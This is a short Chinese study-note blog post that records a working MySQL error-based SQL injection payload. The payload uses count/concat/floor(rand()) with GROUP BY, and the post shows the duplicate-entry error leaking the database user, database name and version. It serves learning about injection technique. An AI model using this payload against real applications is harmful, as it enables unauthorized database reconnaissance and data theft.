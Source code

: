 title: "报错注入语句"
date: 2013-06-14 22:46:12
tags:
id: 262
comment: false
categories:
  - 学习笔记
---

<pre class="brush:sql">mysql&gt; select username,password from pd_users where username = 'admin' and(selec
t 1 from(select count(*),concat((select (select concat(user(),0x7c,database(),0x
7c,version())) from information_schema.tables limit 0,1),floor(rand(0)*2))x from
 information_schema.tables group by x)a) and '1'='1'
    -&gt; ;
ERROR 1062 (23000): Duplicate entry 'root@localhost|phpdisk|5.5.271' for key 'gr
oup_key'</pre>
&nbsp;

&nbsp;

&nbsp;